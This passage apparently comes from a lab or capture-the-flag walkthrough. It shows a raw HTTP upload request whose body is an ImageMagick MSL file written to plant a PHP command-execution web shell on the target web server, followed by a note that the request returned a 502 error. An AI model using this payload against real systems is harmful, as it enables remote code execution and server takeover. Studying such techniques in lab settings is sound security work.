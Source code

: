 ```
Cookie: XSRF-TOKEN=eyJpdiI6IjVBa2tJN0RvMUNLVlBvRzhaaFhpTWc9PSIsInZhbHVlIjoidW9hUmFITGZsWUQ5NVYyVjcvNlFkc0hQVk9qc0dFTEUrRUFkd1ZEdlFxUHZ2VmlVcitjRlZqMC9saXFCTmt2WkVvQ2Fzb1FmVXMvWkZWcG16SUh4c2hNTWU3aFpaSnEwZURXdWRuTVd4ZDBrWkIrSTVzZlJkLzBJLzJHcyszaGQiLCJtYWMiOiJlM2U1ZTFhNDgzYmQ2ZGExYjkxOWZkZjcwMGJiZTQzMGUyNzY5MmU0NDAzZDVkNjgyNTA1NTE4YWFiMzJjZjE3IiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6InR0TmJOa0crRGhzSjhEZFQ4bmErRVE9PSIsInZhbHVlIjoidElDYnFRSm1kVjVRSGNmR3FyNzJsdG0yakVsRXFKdVRYR1FMWnRrS1dRSUI1S1BHeENab3E4bGhyTmlTTmszY1llbFRLR1grQ09Lb09mcERjZ29qRGREUUI0cXJLQVUyRzFvUXJSNWNoQXhTVXA3K1pDSy93SVUzRTg5UW9lTEciLCJtYWMiOiJiNDFkOTc2MTJjMDgxZWZjMDU3NzFiZjQzNTEzNzM4YzA4MzU3YWY2ZDU4YWY2N2QwMmNjYWVjYjJiN2YwZjAzIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNjk0Nzg0NjMyLCJleHAiOjE2OTQ4MDYyMzIsIm5iZiI6MTY5NDc4NDYzMiwianRpIjoiUm0yNTFTZkdQUzB5c2dEbyIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.WfIhNsk0pGCcD2BQm1LPmxFJpBAe5yR0ArgRErpFyCQ
Content-Length: 383
Connection: close
Content-Type: multipart/form-data; boundary=------------------------abcd

--------------------------abcd
Content-Disposition: form-data; name="file"; filename="test.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/wither.php" />
</image>
--------------------------abcd
```

On sending, the request hangs for a second, and then returns a 502 Bad Gateway failure:
![](images/Pasted%20image%2020250207174125.png)
